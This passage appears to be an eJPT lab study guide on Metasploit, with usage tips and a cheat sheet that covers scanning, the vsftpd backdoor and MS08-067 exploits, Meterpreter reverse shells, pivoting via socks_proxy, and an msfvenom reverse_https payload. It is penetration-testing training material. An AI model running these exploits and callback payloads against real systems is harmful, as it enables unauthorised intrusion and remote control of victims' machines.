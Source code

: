 ## Practical tips
- Always set LHOST to your reachable interface (often tun0 in eJPT labs). Many failed shells are just LHOST mistakes.
- Use setg to store LHOST/RPORT/etc. once per msfconsole session.
- Use check when available to validate vulnerabilities before firing an exploit.
- Prefer exploit -j to keep the listener running; combine with set ExitOnSession false for multiple callbacks.
- Migrate Meterpreter into a stable, long-lived process (e.g., services) before heavy post-exploitation.
- Use workspaces and spool to keep findings and logs organized across targets.
- db_nmap is convenient; still keep a normal Nmap handy for fine-tuned scans outside MSF.
- For pivoting, Metasploit modules honor route entries; socks_proxy enables external tools via proxychains.
- Respect lab scope and rules; only use brute-force where explicitly allowed.

## Minimal cheat sheet (one-screen flow)
```
# Start
sudo systemctl enable --now postgresql
msfdb init
msfconsole -q
workspace -a lab01
spool msf_lab01.log
setg LHOST `ip -4 addr show tun0 | awk '/inet/ {print $2}' | cut -d/ -f1`

# Discover
db_nmap -sS -sV -O -Pn -T4 -p- 10.10.10.0/24
hosts; services

# Validate
use auxiliary/scanner/smb/smb_version; set RHOSTS 10.10.10.10; run; back
use auxiliary/scanner/ftp/anonymous; set RHOSTS 10.10.10.11; run; back

# Exploit (example)
search name:vsftpd type:exploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.11
run
sessions -i 1

# Windows example
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.12
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ${LHOST}; set LPORT 4444
exploit -j
sessions -i 1

# Post
getuid; sysinfo; ipconfig; search -f *flag*; background
use post/multi/recon/local_exploit_suggester; set SESSION 1; run

# Pivot
sessions -i 1
run post/multi/manage/autoroute SUBNET=10.10.20.0 NETMASK=255.255.255.0
background
use auxiliary/server/socks_proxy; set SRVHOST 127.0.0.1; set SRVPORT 1080; set VERSION 5; run -j
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf
proxychains nmap -sT -Pn -n -p 80 10.10.20.10

# Handler/payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=443 -f exe -o payload.exe
```